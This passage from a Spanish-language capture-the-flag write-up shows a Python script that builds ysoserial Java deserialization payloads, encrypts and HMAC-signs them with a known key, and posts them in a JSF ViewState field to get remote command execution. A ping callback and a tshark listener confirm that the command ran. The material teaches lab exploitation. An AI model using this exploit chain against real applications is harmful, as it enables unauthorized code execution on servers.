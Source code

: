 ```py
    Ejecutar comandos en el sistema y jugar con el output
    * https://python-para-impacientes.blogspot.com/2014/02/ejecutar-un-comando-externo.html
    '''
    for payload in payloads:
        print("Enviando " + payload)

        # Generamos payload
        # https://stackoverflow.com/questions/42339876/error-unicodedecodeerror-utf-8-codec-cant-decode-byte-0xff-in-position-0-in
        os.system('java -jar ysoserial.jar %s "%s" > %s.txt' % (payload, cmd, payload))
        payload_file = open('./' + payload + '.txt', 'rb')

        # Firmamos payload
        enc_payload = encrypt(payload_file.read(),key)
        hmac_sig = hmac_siga(enc_payload,key)

        # Pasamos a base64
        final_payload = base64.b64encode(enc_payload + hmac_sig)

        payload_file.close()

        data_post = {
            "j_id_jsp_1623871077_1:email" : "aaaaaaaaa", 
            "j_id_jsp_1623871077_1:submit" : "SIGN UP",
            "j_id_jsp_1623871077_1_SUBMIT" : "1",
            "javax.faces.ViewState" : final_payload
        }

        session = requests.Session()
        r = session.post(url + '/userSubscribe.faces', data=data_post)

        # Borramos los archivos creados de cada payload (por un problema tuve que hacerlo asi).
        os.system("shred -zun 10 %s.txt" % (payload))

# Enviamos el comando
sign_payload("ping -n 1 10.10.14.14")
```

Entonces generamos el payload, que dentro de él va a tener el comando `ping -n 1 10.10.14.14`, por lo tanto si se ejecuta deberíamos recibir una petición **ICMP** hacia nuestra máquina. Pongámonos en escucha para ver que llega hacia el protocolo **ICMP** en la red:

```bash
❭ tshark -i tun0 -Y "icmp" 2>/dev/null
```

Hagamos un ejemplo rápido de lo que hace el script:

<span>1. </span>Generamos payload.

```bash
❭ java -jar ysoserial.jar Click1 'ping -n 1 10.10.14.14' > clickpayload.txt
❭ strings clickpayload.txt
java.util.PriorityQueue
sizeL
...
❭ file clickpayload.txt 
clickpayload.txt: Java serialization data, version 5
```

